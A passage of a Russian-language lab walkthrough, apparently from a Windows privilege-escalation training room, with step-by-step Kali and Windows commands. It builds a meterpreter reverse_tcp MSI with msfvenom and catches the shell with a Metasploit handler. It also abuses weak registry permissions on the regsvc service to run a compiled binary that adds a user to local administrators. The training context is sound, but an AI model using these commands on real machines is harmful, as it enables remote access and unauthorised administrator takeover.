 Эксплуатация

Кали ВМ

1. Откройте командную строку и введите:  `msfconsole`
2. В Metasploit (msf > prompt) введите:  `use multi/handler`
3. В Metasploit (msf > prompt) введите:  `set payload windows/meterpreter/reverse_tcp`
4. В Metasploit (msf > prompt) введите:  `set lhost [ IP-адрес виртуальной машины Kali ]`
5. В Metasploit (msf > prompt) введите:  `run`
6. Откройте дополнительную командную строку и введите:  `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ IP-адрес виртуальной машины Kali ] -f msi -o setup.msi`
7. Скопируйте сгенерированный файл setup.msi на виртуальную машину Windows .

ВМ Windows

1. Поместите 'setup.msi' в 'C:\Temp'.
2. Откройте командную строку и введите:`msiexec /quiet /qn /i C:\Temp\setup.msi`

Наслаждайтесь своей ракушкой! :)


### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 5
Обнаружение

ВМ Windows

1. Откройте командную строку PowerShell и введите:  `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
2. Обратите внимание, что вывод предполагает, что пользователь, принадлежащий «NT AUTHORITY\INTERACTIVE», имеет разрешение «FullContol» на раздел реестра.

Эксплуатация

ВМ Windows

1. Скопируйте `«C:\Users\User\Desktop\Tools\Source\windows_service.c»` на виртуальную машину Kali .

Кали ВМ

1. Откройте windows_service.c в текстовом редакторе и замените команду, используемую функцией system(), на: `cmd.exe /k net localgroup administrators user /add`
2. Выйдите из текстового редактора и скомпилируйте файл, введя в командной строке следующее:  `x86_64-w64-mingw32-gcc windows_service.c -o x.exe` (ПРИМЕЧАНИЕ: если он не установлен, используйте «sudo apt install gcc-mingw-w64») 
3. Скопируйте сгенерированный файл x.exe на виртуальную машину Windows .

ВМ Windows

1. Поместите x.exe в 'C:\Temp'.
2. Откройте командную строку, набрав:  `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /dc:\temp\x.exe /f`
3. В командной строке введите: `sc start regsvc`
4. Можно подтвердить, что пользователь был добавлен в группу локальных администраторов, введя в командной строке следующее: `net localgroup administrators`
